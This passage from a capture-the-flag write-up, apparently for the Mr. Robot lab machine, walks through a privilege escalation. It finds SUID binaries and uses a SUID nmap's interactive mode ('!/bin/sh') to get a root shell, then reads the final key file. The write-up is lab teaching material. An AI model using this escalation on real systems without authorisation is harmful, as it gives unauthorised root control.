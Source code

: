 ## 5. Privilege Escalation Part 2

Our next step is getting root. I did a few standard things to check for attack vectors: check what groups `robot` is in, check `sudo` privileges, and lastly a quick search for SUID files.

```
robot@linux:~$ find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Most of these are pretty standard, but one of them stands out to me: `namp`. Because the SUID bit is set, whenever `nmap` is executed it runs as the root user. We can exploit this to become root outselves. One way we can do this is by entering `nmap`'s "interactive" mode, then executing arbitrary commands as root:

```
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
!/bin/sh
# whoami
whoami
root
```

We are root now!

## 6. Root

We now have access to `/root` and can read the final flag!

```
# ls -l /root
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat /root/key-3-of-3.txt
<redacted>
```